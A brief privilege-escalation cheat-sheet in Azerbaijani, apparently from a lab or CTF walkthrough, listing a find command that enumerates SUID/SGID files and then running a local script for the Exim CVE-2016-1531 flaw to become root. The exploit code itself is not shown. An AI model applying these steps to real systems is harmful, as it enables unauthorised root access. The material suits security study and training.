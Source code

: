 ## eger biz ilk olaraq
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

## burada biz /usr/sbin/exim-4.84-3   bunu gordukde daha sonra
    /home/user/tools/suid/exim/cve-2016-1531.sh

## bu emri yerine yetirdikde artiq root ola bilirik



